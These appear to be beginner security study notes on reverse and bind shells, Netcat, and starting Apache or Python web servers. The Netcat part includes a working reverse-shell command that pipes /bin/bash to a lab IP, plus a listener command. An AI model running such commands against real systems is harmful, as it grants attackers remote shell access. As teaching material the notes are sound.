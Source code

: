 - this method - the victim itself create connection with the attacker.
    - ==the attacker open listener by opening port== and send malware that forced the victim computer to connect to the attacker computer. so firewall can't lock this because the victim itself tries to connect not from outside. 


### Netcat 
- Netcat is a Command-line Interface (CLI) Based tool that is **used to read/write data over TCP/UDP. **
    - To listen on ports, 
    - To create connection on ports we can use this tool.
- It is a Back-End tool which can smoothly be cross utilized by other programs 
- Used to Create a connection with any protocol/port you want or to create a listener on any port 
- It is a tool That helps to create Reverse shells or Bind shells 
- It is built in on kali and parrot but not for windows.
bind shell -- the victim will be the listener 
reverse shell -- the attacker will be the listener and so open the port
- ==netcat -lvp 'portno== --**to open the port** and listen
     - -l ; listen 
     - -v; verbose - nmap lay endalew log endiyareg
     - -p; port
     - -n; no dns resolution
     ==nc -nlvp 2222==
 - ==nc ip port -e /bin/bash== -- **to connect**
      -  ==nc 192.168.56.102 2222 -e /bin/bash==



# Web servers

- On the **hardware side**, a web server is **a computer that stores web server software and a website's component files** (for example, HTML documents, images, CSS stylesheets, and JavaScript files)
- a web server connects to the internet and supports physical data interchange with other devices connected to the web.
- **Web Server Software is a computer software that uses HTTP and HTTPS to provide a website.**(port 80,443)
- There are a lot of software that can be installed on the server to work like web server. servers are just computers. So to be specific we have to install some web things

### A. Apache server 
- This Server software will help to **provide Web contents**. 
- On linux it comes Built in But on windows you can install it with softwares called Xampp and Wampp and will give you localhost web contents 
- To Start this server software  ==sudo systemctl start apache2==
- From now on our computer is acting like a webserver. 
- Default is port 80
- By going to out IP on any browser we can get a websites. 
- The default path of apache2 is /var/www/html 
- So on any web server the websites are running on This path. 


### B. Python Server 
- use python to start web servers 
- To start the service 
    - **python3 -m http.server port Number** 
- The python will help you to host website from any path on your computer with any port you need. 
